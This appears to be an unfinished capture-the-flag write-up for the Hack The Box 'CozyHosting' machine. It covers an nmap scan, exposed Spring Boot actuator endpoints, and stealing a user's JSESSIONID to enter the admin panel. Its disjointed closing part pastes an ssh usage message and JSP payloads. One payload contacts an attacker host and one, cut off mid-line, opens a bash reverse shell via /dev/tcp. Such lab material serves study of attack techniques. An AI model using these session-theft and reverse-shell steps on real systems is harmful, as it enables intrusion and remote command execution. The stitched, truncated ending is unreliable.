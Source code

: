 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx cozyhosting.htb
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV cozyhosting.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# HTTP (port 80)
after investicating, it seems it is Spring Boot running (JSP Java Server Pages)
we found some url in actuator
```
200      GET        1l        1w       15c http://cozyhosting.htb/actuator/health
200      GET        1l        1w      495c http://cozyhosting.htb/actuator/sessions
200      GET        1l      120w     4957c http://cozyhosting.htb/actuator/env
200      GET        1l      542w   127224c http://cozyhosting.htb/actuator/beans
```

the url http://cozyhosting.htb/actuator/sessions is interesting because we have kaderson that have a open session with his JSESSIONID exposed
we stole the id session and can access the admin back office

htb.cloudhosting.CozyHostingApp$$SpringCGLIB$$0


usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]%20%20%20%20%20%20%20%20%20%20 [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]%20%20%20%20%20%20%20%20%20%20 [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]%20%20%20%20%20%20%20%20%20%20 [-i identity_file] [-J [user@]host[:port]] [-L address]%20%20%20%20%20%20%20%20%20%20 [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]%20%20%20%20%20%20%20%20%20%20 [-Q query_option] [-R address] [-S ctl_path] [-W host:port]%20%20%20%20%20%20%20%20%20%20 [-w local_tun[:remote_tun]] destination [command [argument ...]]




<% URL obj = new URL("http://10.10.14.136:8000/test.jpg");	HttpURLConnection con = (HttpURLConnection) obj.openConnection();	con.setRequestMethod("GET"); int responseCode = con.getResponseCode(); %>


<% Runtime r = Runtime.getRuntime(); Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.136/6666;cat <&5 | while read line; do $line 2>&5 >&5; done'"); p.waitFor();
